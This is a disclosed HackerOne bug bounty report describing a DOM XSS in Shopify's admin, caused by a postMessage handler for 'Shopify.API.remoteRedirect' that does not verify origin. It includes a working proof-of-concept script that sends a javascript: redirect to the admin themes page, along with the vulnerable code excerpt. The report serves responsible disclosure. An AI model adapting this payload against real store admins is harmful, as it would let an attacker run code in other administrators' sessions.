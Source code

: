# DOM XSS via Shopify.API.remoteRedirect

## Report Details
- **Report ID**: 576532
- **URL**: https://hackerone.com/reports/576532
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-05-10T15:05:16.793Z
- **Disclosed**: 2019-06-05T23:24:37.469Z

## Reporter
- **Username**: yxw21
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
hi, team, after I read the report #422043, I found another monitor postmessage, and did not correctly verify the origin, leading to dom xss, using the store theme can write js this feature, we can modify a theme for the following Payload, 
```
<script>
  function attack(){
  	var ctx=window.open('https://cuxuri.myshopify.com/admin/themes');
    var interval;
    interval=setInterval(function(){
      if(window.attackSuccess){
        clearInterval(interval);
      }else{
        ctx.postMessage(`{"message":"Shopify.API.remoteRedirect","data":{"location":"javascript:alert(document.domain)"}}`);
      }
    },500);;
  }
</script>
<a href="javascript:attack()" style="display:block;text-align:center;width:100%;height:300px;line-height:300px;background:#000;color:#fff;">click me start attack</a>
```
then log in to the store, access the page containing the payload, you can trigger xss, 
such as:

{F487966}

Problem code:
```
https://cdn.shopifycloud.com/web/assets/latest/embeddedApp-ab64a8a13eb3f06403cb2acf67e20576a144bf2d3625807923872e8adf469a14.js
case de.RemoteRedirect:
                            this.handleRemoteRedirect(t.location);
                            break;
```

## Impact

Attack other administrators

## Attachments
- 1.png
